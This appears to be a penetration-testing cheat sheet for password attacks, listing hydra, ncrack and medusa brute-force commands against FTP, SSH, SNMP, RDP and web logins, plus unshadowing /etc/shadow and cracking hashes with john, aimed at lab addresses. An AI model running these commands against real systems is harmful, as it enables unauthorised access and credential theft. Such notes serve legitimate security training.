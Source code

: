 #### hydra

```hydra -P password-file.txt -v 10.11.1.219 snmp```

```hydra -l admin -P password-file.txt -v x.x.x.x ftp```

```hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ftp```

```hydra -l root -P password-file.txt x.x.x.x ssh```

```hydra -l admin -P /usr/share/dirb/wordlists/small.txt 192.168.1.101 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" -V```

-----


#### john

*unshadow /etc/passwd /etc/shadow > /tmp/unshadowed*

```john --wordlist=/usr/share/wordlists/rockyou.txt /tmp/unshadowed```

```john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt ntlm.hash```

-----


#### rdp

```ncrack -vv --user offsec -P password-file.txt rdp://10.11.1.35```

```hydra -t 1 -l username -p password1! rdp://192.168.190.130```

-----


#### medusa

```medusa -h 10.11.1.219 -u admin -P password-file.txt -M http -m DIR:/admin -T 10```

-----
